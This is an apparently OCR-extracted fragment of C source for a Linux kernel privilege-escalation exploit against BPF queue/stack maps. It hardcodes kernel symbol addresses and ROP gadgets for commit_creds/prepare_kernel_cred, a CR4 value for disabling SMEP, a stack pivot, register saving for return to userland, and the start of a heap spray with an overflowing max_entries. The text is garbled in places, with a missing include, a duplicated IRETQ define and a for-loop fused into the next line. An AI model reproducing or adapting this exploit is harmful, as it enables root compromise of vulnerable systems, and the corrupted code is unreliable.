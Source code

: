 ```
#include 
 
#ifndef BPF_MAP_TYPE_QUEUE
#define BPF_MAP_TYPE_QUEUE 22
#endif
 
#ifndef BPF_MAP_TYPE_STACK
#define BPF_MAP_TYPE_STACK 23
#endif
 
#define N 14
 
//#define DEBUG
 
#define EVIL_CR4 0x6f0 
 
#define COMMIT_CREDS 0xffffffff810bd9c0
#define PREPARE_KERNEL_CRED 0xffffffff810bdc70
#define NATIVE_WRITE_CR4 0xffffffff81072820
#define POP_RAX_RET 0xffffffff81039ee1
#define POP_RDI_RET 0xffffffff810890a0
#define SWAPGS 0xffffffff810728c4
#define IRETQ
#define SYSRET 0xffffffff81c00163
#define IRETQ 0xFFFFFFFF8103713B
#define XCHG_EAX_ESP 0xffffffff810534d0
#define EVIL_RSP 0x810534d0
 
typedef int __attribute__((regparm(3))) (* _commit_creds)(unsigned long cred);
typedef unsigned long __attribute__((regparm(3))) (* _prepare_kernel_cred)(unsigned long cred);
_commit_creds commit_creds = (_commit_creds)COMMIT_CREDS;
_prepare_kernel_cred prepare_kernel_cred = (_prepare_kernel_cred)PREPARE_KERNEL_CRED;
 
uint64_t value[7];
union bpf_attr *attr;
union bpf_attr *attr2;
unsigned int spray_map_fd[15];
 
 
 
 __attribute__((constructor)) static void Init ( void )
{
    attr = malloc(0x100);
    attr2 = malloc(0x100);
}
 
size_t user_cs, user_ss, user_rflags, user_sp;  //保存用户态寄存器状态
void save_status()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
}
 
 
void kernel_heap_spray()
{
    int i=0;
    for(i;imap_type = 0x16;    //BPF_MAP_TYPE_QUEUE 0x16
    attr->max_entries = -1;
```